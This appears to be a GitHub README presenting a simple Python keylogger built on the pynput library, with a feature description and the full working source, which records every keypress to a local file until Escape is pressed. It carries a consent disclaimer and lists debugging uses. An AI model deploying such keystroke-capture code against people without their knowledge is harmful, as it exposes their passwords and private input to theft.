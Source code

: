 # Simple Keylogger

The provided script is a simple keylogger implemented in Python using the `pynput` library. It captures and logs all key presses, storing them in a text file named `keylogger.txt`. The program terminates when the **Escape** key (`Key.esc`) is pressed.

---

### **Features**  
1. **Key Logging**:  
   - Captures and records both printable and non-printable keys.  
2. **Log File**:  
   - Stores all keypress data in a file (`keylogger.txt`).  
3. **Exit Trigger**:  
   - Stops logging when the Escape key is pressed.

---

### **How It Works**  
1. **Key Press Detection**:  
   - The `on_press` event handler (`log_key`) captures each keypress.  
   - Printable characters (letters, numbers, symbols) are logged directly.  
   - Non-printable keys (e.g., Enter, Shift) are logged as `[key_name]`.  

2. **Logging**:  
   - The program appends each keypress to `keylogger.txt`.  
   - This ensures a continuous log of all user input until termination.  

3. **Stopping the Listener**:  
   - The `on_release` event handler (`stop_listener`) monitors for the Escape key.  
   - When pressed, it stops the listener, effectively ending the keylogging process.  

4. **Execution**:  
   - A `Listener` instance is created and managed with a context manager (`with Listener as listener`).  
   - The listener runs in the background, capturing events until explicitly stopped.

---

### **Technologies Used**  
1. **Python**:  
   - Core programming language for writing the script.  

2. **`pynput` Library**:  
   - Used to listen for keyboard events and interact with the system.  

3. **File Handling**:  
   - Appends data to a text file using Python's file I/O capabilities.  

---

### **Potential Use Cases**  
- Debugging keyboard inputs for testing applications.  
- Monitoring for specific key sequences in controlled environments.  

**Note**: Always ensure ethical and legal compliance when working with keylogging software. This type of script must only be used with proper consent and in accordance with local laws.

### **Code**  

Here is the Python code for the Simple Keylogger:
```
from pynput.keyboard import Key, Listener

# Path to the log file
log_file = "keylogger.txt"

def log_key(key):
    try:
        with open(log_file, "a") as file:
            file.write(key.char)
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f'[{key}]')

def stop_listener(key):
    if key == Key.esc:
        # Stop listener
        return False

# Start the listener
with Listener(on_press=log_key, on_release=stop_listener) as listener:
    listener.join()
